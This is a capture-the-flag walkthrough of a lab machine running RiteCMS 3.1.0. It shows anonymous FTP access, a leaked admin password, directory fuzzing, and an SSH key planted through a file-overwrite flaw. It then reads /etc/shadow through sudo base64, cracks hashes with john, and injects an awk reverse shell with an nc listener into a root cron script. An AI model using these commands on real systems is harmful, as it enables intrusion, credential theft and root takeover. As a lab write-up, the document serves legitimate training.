Open the index site of the machine at: <ip>

We are greeted with a "Welcome to our Website" and an image of a character.

With a reverse image search we can deduce that the character is called April.

Question: What is the first name of the character on the landing page?

Answer: April

We can then start scanning the room and answer the following questions:

1.  How many ports does the machine have open?

2. What is the CMS version?


First scan the room with nmap:



This shows us the following information:
4 open ports:
Ftp command and data ports , apache and SSH.

NOTE: the Ftp data port may not be visible in the scan since nmap default scan might not check if the data port is open.

Question:

Question:  How many ports does the machine have open?
Answer: 4

We can then interface with the FTP server to find extra information that might be left there

The ftp server can be connected to with the following command:
ftp <ip>

Then entering Anonymous as user

then changing to passive mode with "pass" command to be able to interface with the ftp server.



A directory listing inside the ftp server shows us a directory called "public" inside which are diary and log files



We can download the diary files by typing:
get <filename>

diary_06_05.txt shows the following information:




there are other files with hints inside the ftp, but the relevant file is this one that reveals that the admin panel is behind a hidden path and that the admin password is "mastersplinterknowskarate"

Let's find this path:

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -recursion -u http:/<IP>/FUZZ

This command first finds a directory called .listings
then beyond that directory, it finds a directory called cmsadmin

So the full path is:
http://<ip>/.listings/cmsadmin


Down on the right we can see the RiteCMS version:
v.3.1.0


Question: What is the CMS version?
Answer: 3.1.0

We can then try to find an exploit from exploitdb:

And come accross this Arbitrary file overwrite vulnerability

https://www.exploit-db.com/exploits/50614

We can then head on over to the admin page and login with the following credentials:

admin:mastersplinterknowskarate


Then we can head onto settings, then onto the files manager:

We can now have multiple ways to do this but the original intention of this room was to add your own authorized keys and then ssh into the machine, lets do this:

first create a key with:
ssh-keygen -t rsa
Then add the public key from this to a file called "authorized_keys"
and overwrite the same file on the server:
the public key is added with:
cat key.pub >> authorized_keys
We can then replace the original authorized_keys file on the server with this one:



After adding this we can then login with the april user as the server:

ssh -i key april@<ip>

We arrive at the home folder of april and can read the first user flag:




Let's then start looking for the second user flag:

Lets start by looking at what we can do:

We can find this information manually or with linpeas.sh

We can find the binary we are looking for with 
sudo -l

that gives the following output



We can then exploit this binary by using the following gtfobin:
https://gtfobins.github.io/gtfobins/base64/

lets read files we should not have access to such as /etc/shadow and /etc/passwd:

```console
LFILE=/etc/shadow
sudo base64 "$LFILE" | base64 --decode
```

The copy the output of this manually and add it to a file called shadow.txt

Then repeat for the same for /etc/passwd

```console
LFILE=/etc/passwd
sudo base64 "$LFILE" | base64 --decode
```
And copy this to a file called passwd.txt

Then we can crack the password for the second user using john:

We took the first part from the shadow for leonardo:

The hash is as follows:

The result:


That gives the following password for the user leonardo:

1322818jmkc

We can then log onto this user and read the second user flag:




We can then move onto the final privilege escalation of the challenge:

Let's read the global crontab file with:

cat /etc/crontab

and we can see the following entry:

* * * * * root /home/leonardo/check_status.sh

Which means that root runs a script in /home/leonardo/check_status.sh

if we read this file: it gives the output:

$ cat check_status.sh
echo "Gathering UFW status..."
systemctl status ufw
echo "Status for UFW gathered!"$ 

We then need to edit this file to include a reverse shell that connects to our machine when the script is ran:

NOTE: not all reverse shells work for this so finding one might be trial and error:

A working reverse shell for this is:
```console
awk 'BEGIN {s = "/inet/tcp/0/<ip>/4445"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

We then start a netcat listener on the attacker end with:

nc -lvnp 4445



And you have now completed the room.